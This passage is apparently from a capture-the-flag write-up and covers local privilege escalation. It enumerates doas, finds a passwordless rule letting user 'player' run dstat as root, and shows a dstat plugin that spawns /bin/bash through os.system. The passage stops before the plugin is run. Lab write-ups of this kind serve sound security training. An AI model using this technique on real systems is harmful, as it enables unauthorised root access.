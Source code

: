 Looking for `SUID` files we can see that the `doas` is present in this box.

```bash

-bash-5.0$ find / -name doas* 2>/dev/null
/usr/local/share/man/man5/doas.conf.5
/usr/local/share/man/man1/doas.1
/usr/local/share/man/man8/doasedit.8
/usr/local/bin/doasedit
/usr/local/bin/doas
/usr/local/etc/doas.conf

```

The `conf` file of `doas` is at: `/usr/local/etc/doas.conf`.

```bash

-bash-5.0$ cat /usr/local/etc/doas.conf
permit nopass player as root cmd /usr/bin/dstat

```

We can see that the user `player` can run `/usr/bin/dstat` as root without password using `doas`.

`dstat` is a versatile tool for generating system resource statistics.

It allows users to create a custom plugin and execute by adding option e.g. `dstat --myplugin`. 

Learn more about it [here](https://exploit-notes.hdks.org/exploit/sudo-privilege-escalation/).

First, we need to find where we can create our plugin.

```bash

-bash-5.0$ find / -type d -name dstat 2>/dev/null
/usr/share/doc/dstat
/usr/share/dstat
/usr/local/share/dstat

```

The plugins can be created in `/usr/local/share/dstat` directory.

```bash

-bash-5.0$ pwd
/usr/local/share/dstat
-bash-5.0$ 
-bash-5.0$ ls
dstat_curiosity.py
-bash-5.0$ 
-bash-5.0$ cat dstat_curiosity.py 
import os

os.system("/bin/bash")

```
